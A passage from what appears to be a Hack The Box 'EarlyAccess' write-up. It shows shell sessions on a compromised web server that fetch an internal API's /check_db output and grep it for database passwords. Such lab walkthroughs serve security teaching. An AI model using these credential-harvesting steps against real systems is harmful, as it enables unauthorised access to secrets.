 Looking at the index file:

```text
www-adm@webserver:~$ cat index.html 
{"message":"Welcome to the game-key verification API! You can verify your keys via: /verify/<game-key>.
If you are using manual verification, you have to synchronize the magic_num here.
Admin users can verify the database using /check_db.","status":200}
```

Let's get the check_db file:

```text
www-adm@webserver:~$ wget http://api:5000/check_db
--2022-02-04 17:03:17--  http://api:5000/check_db
Resolving api (api)... 172.18.0.101
Connecting to api (api)|172.18.0.101|:5000... connected.
HTTP request sent, awaiting response... 401 UNAUTHORIZED
Authentication selected: Basic
Connecting to api (api)|172.18.0.101|:5000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8708 (8.5K) [application/json]
Saving to: ‘check_db’
check_db     100%[==============>]   8.50K  --.-KB/s    in 0s      
2022-02-04 17:03:17 (108 MB/s) - ‘check_db’ saved [8708/8708]
```

Looking at it the contents is json so copy to Kali and use jq to read it:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# jq '.' check_db                                                    
{
  "message": {
    "AppArmorProfile": "docker-default",
    "Args": [
      "--character-set-server=utf8mb4",
      "--collation-server=utf8mb4_bin",
      "--skip-character-set-client-handshake",
      "--max_allowed_packet=50MB",
      "--general_log=0",
      "--sql_mode=ANSI_QUOTES,ERROR_FOR_DIVISION_BY_ZERO,IGNORE_SPACE,NO_ENGINE_SUBSTITUTION,NO_ZERO_DATE,NO_ZERO_IN_DATE,PIPES_AS_CONCAT,REAL_AS_FLOAT,STRICT_ALL_TABLES"
    ],
    "Config": {
      "AttachStderr": false,
      "AttachStdin": false,
      "AttachStdout": false,
      "Cmd": [
<SNIP>
```

It's a long file but a grep for password finds some credentials:

```sh
┌──(root💀kali)-[~/htb/earlyaccess]
└─# jq '.' check_db | grep -i password
        "MYSQL_PASSWORD=drew",
        "MYSQL_ROOT_PASSWORD=<HIDDEN>",
```
